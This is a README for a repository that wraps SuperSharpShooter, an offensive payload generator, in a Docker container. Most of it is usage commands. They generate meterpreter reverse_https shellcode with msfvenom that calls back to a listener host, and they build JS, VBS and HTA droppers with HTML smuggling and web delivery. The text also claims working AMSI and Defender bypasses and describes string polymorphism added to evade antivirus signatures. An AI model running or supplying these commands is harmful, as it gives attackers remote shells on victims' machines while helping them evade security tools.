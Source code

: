 # Containerized SuperSharpShooter 

This repository is just to execute https://github.com/SYANiDE-/SuperSharpShooter as a container.
## Usage
```shell
git clone https://github.com/yosh1s/SuperSharpShooter.git 

cd SuperSharpShooter

docker build -t super-sharp-shooter .

msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.215 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f csharp | sed '1s/^[^{]*{//; $s/}.*$//' > csharpsc.txt

docker run --rm -it -v "$(pwd)":/app/ super-sharp-shooter --payload js --dotnetver 4 --scfile ./csharpsc.txt --output hoge --delivery web --web http://192.168.45.215/hoge.payload --smuggle --template mcafee --shellcode
```


## Original README

Forking... and fixing a couple of things.

What's new:
1. Fixed the amsiEnable bypass to use the filelocation-independent version
2. Added polymorphism to the string "SharpShooter", which was popping Defender signature-based detections.  This is enabled by default in this version.  If you want it disabled, by all means... comment out in SuperSharpShooter.py:507 : 
    x.template_code = x.fix_hardcode(x.template_code, x.code_type)
3. Fixed .NET v4 js, vbs, hta sharpshooterv4 and stagelessv4
4. Ported to python3

I can confirm that stageless js, vbs, and hta all work.  Can also confirm amsi bypass and defender bypass works (at least at this time).  Can also confirm HTML smuggling stageless works.

### Generate the shellcodes
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > rawsc.bin

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.83 LPORT=443 -e x64/xor_dynamic  -b '\\x00\\x0a\\x0d' -f raw  > csharpsc.txt  ### you'll need to remove all variable wrapping such that only the bytes remain

### Core stageless
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload vbs --output test

	./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload hta --output test

### Core with AMSI bypass
    ./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile rawsc.bin --payload js --output test --amsi amsienable
